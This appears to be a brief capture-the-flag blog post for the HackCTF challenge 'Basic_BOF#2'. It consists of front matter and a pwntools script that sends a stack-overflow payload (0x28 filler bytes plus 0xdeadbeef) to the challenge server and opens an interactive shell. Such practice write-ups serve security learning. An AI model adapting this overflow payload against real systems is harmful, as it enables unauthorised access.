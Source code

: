 ```yaml
---
title: "[HackCtf] Basic_BOF#2"
date: 2020-06-30
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3000)

p.sendline("0"*0x28+p32(0xdeadbeef)) p.interactive(){% endhighlight %}
